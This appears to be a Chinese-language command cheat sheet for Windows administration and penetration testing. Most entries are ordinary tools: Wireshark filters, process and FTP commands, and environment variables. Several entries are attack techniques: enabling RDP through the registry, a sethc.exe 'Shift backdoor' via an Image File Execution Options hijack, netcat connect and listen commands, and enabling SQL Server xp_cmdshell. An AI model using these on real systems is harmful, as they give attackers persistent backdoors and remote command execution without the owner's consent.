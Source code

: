 ### Wireshark 常用命令：

好用的 Filter：

    http   直接搜 HTTP 协议
    http contains www   HTTP 请求包含
    tcp.port == 80   指定 80 端口的 TCP 通讯
    http.request.method == GET  指定 HTTP GET 请求
    http.request.uri contains .php  URL请求中包含 .php 的所有流量

保存 HTTP 请求的图片：

    File -> Export Objects -> HTTP

保存当前单个连接的 十六进制：

    Copy -> Bytes -> Hex Stream

### 关闭 端口关联进程
	
    netstat -aon | findstr PORT
    tasklist | findstr PID
    taskkill /f /t /im PNAME

### 查看本地 DNS 缓存

    ipconfig /displaydns

### Window常用系统变量

    %ALLUSERSPROFILE%   列出系统所有用户Profile文件位置
    %APPDATA%   列出系统程序数据默认存放位置
    %CD%    当前目录
    %COMPUTERNAME%   计算机名称
    %HOMEPATH%  列出主用户目录（\Users\Administrator）
    %USERNAME%  用户名
    %OS%    操作系统名称
    %TEMP%   当前用户应用程序的临时目录（C:\Users\ADMINI~1\AppData\Local\Temp）

### 注册表打开 3389 端口

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

### Shift 后门

推荐使用修改注册表方式（镜像劫持）

REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v debugger /t REG_SZ /d "%SystemRoot%\system32\cmd.exe"


### NC 命令

    nc 192.168.1.100 5678　　连接.100的5678端口
    nc -vv -lp  22222　　　　监听本地22222端口

### 把两张图片的二进制合成一张图片

copy /b 1.jpg+2.jpg 12.jpg

### CMD下FTP相关操作

    ftp　　启动ftp客户端

    open ftp的ip　　打开ftp站点

    会提示输入用户名 密码

    lcd  本机绝对路径     设置本地文件路径

    get  文件名     下载单个文件

    mget  文件夹名  下载多个文件

    put   本地文件   上传本地文件

### SQLServer2008/2012 开启xp_cmdshell

　　sp_configure 'show advanced options', 1;　　允许配置高级选项
　　RECONFIGURE;
　　sp_configure 'xp_cmdshell', 1;　　启用xp_cmdshell ，值为0表示禁用
　　RECONFIGURE;  

　　--执行想要的xp_cmdshell语句
　　Exec xp_cmdshell 'ipconfig'


### 常用系统命令


    msconfig　　打开系统配置

    mspaint　　打开绘图板

    mstsc　　打开远程桌面

    taskmgr　　任务管理器

    eventver　　事件查看器

    start explorer D:　　打开D盘

    regedit　　打开注册表

    clean mgr　　磁盘清理

    lusrmgr.msc　　查看本地组和用户

    gpedit　　查看组策略

    systeminfo　　显示机器的具体属性和配置信息

    tasklist　　显示当前运行的所有任务和服务

